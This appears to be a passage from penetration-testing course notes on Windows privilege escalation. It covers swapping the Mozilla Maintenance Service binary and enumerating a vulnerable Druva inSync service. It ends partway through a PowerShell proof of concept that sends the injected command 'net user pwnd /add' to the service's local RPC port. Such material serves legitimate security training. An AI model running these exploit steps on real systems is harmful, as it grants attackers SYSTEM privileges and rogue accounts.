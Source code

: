 ````
> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Starting the Service
> net start MozillaMaintenance
````

## Vulnerable Services

We may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party applications/services are used throughout the organization. It is common to encounter a multitude of different applications and services on Windows workstations during our assessments. Let's look at an instance of a vulnerable service that we could come across in a real-world environment. Some services/applications may allow us to escalate to SYSTEM.

Enumerating Installed Programs
````
> wmic product get name
````
Example "Druva inSync". A quick Google search shows that version 6.6.3 is vulnerable to a command injection attack via an exposed RPC service.

Enumerating Local Ports
Let's do some further enumeration to confirm that the service is running as expected. A quick look with netstat shows a service running locally on port 6064.
````
> netstat -ano | findstr 6064
````
Enumerating Process ID
Next, let's map the process ID (PID) 3324 back to the running process.
````
> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
````
Enumerating Running Service
At this point, we have enough information to determine that the Druva inSync application is indeed installed and running, but we can do one last check using the Get-Service cmdlet.
````
> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
````
**Druva inSync Windows Client Local Privilege Escalation Example**
````
# Druva inSync PowerShell PoC

$ErrorActionPreference = "Stop"
$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
````